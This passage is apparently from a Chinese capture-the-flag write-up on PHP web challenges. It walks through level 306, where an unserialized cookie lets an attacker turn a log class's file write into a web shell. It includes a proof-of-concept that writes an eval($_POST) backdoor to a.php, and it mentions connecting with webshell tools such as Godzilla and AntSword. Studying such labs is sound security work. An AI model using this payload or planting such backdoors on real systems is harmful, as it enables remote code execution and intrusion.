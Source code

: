 ![](https://i.loli.net/2021/10/06/Nlok7mSn6TeLZ4h.png)

flag还是在数据库里，拿哥斯拉（哥斯拉连好像只能连post的马--）或者蚁剑连一下：

![](https://i.loli.net/2021/10/06/J7ugztwWy3vNIbV.png)



## 306 反序列化传马

> hint: 开始使用mvc结构
>
> 即模型-视图-控制器

审计会发现存在许多类和函数作为控制器

seay扫一下危险函数，找到class.php log类的close()

```php
class log{
	public $title='log.txt';
	public $info='';
	public function loginfo($info){
		$this->info=$this->info.$info;
	}
	public function close(){
		file_put_contents($this->title, $this->info);
	}
}
```

再看在哪会调用到close()

![](https://i.loli.net/2021/10/06/6OK2LMUqgoYk17l.png)

dao.php: （require class.php）

![](https://i.loli.net/2021/10/06/YVGdTWU5nfE1Do9.png)

那么只要让dao->conn为log类，就会在反序列化时触发close方法~

再找包含dao.php进行反序列化的地方

index.php:

```php
<?php
session_start();
require "conn.php";
require "dao.php";
$user = unserialize(base64_decode($_COOKIE['user']));
# ...
```

poc:

```php
<?php

class dao{
    private $conn;
        public function __construct(){
        $this->conn=new log();
    }
}

class log{
    public $title='a.php';
    public $info='<?php eval($_POST[1]);?>';
}
```